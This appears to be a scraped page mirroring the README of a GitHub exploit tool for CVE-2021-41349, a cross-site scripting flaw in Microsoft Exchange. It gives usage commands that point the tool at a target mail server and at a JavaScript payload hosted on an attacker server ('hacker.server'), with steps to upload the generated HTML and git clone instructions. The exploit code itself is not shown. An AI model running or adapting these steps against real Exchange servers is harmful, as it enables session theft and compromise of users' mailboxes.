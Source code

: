 # CVE-2021-41349

Exploiting: CVE-2021-41349

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/exploit-io](https://github.com/exploit-io) |
| Url      | [https://github.com/exploit-io/CVE-2021-41349](https://github.com/exploit-io/CVE-2021-41349)                                               |
| Stars    | 6                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>

* cve-2021-41349* microsoft-exchange* vulnerability

</details>

## Readme

# Microsoft Exchange Exploit CVE-2021-41349
Exploiting: CVE-2021-41349
This exploiting tool creates a Form for posting XSS Payload to the target Exchange server.
You need to create a `js` containing your desire to do.

# Usage
1. Create Your `js` Payload and upload it somewhare.
2. run the `CVE-2021-41349.py` same as following steps.
```shell
python3 CVE-2021-41349.py "https://mail.target.com" "https://hacker.server/payload.js" out.html
```
or:
```shell
./CVE-2021-41349.py "https://mail.target.com" "https://hacker.server/payload.js" out.html
```
3. Upload The `html` file into server.
4. Done! Test it!

# Credits
* [@exploitio](https://twitter.com/exploitio)


## Get the content

```
git clone https://github.com/exploit-io/CVE-2021-41349
cd CVE-2021-41349
```

{% embed url="https://github.com/exploit-io/CVE-2021-41349" %}

<figure><img src="https://avatars.githubusercontent.com/u/71645666?v=4" alt=""><figcaption><p>exploit-io</p></figcaption></figure>
